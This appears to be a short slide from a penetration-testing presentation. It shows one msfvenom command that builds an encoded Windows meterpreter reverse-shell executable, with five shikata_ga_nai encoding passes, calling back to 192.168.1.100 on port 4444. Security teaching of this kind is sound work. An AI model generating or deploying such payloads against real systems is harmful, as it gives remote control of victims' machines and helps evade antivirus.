

Example using the shikata_ga_nai encoder with 5 iterations:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 > encoded_reverse_shell.exe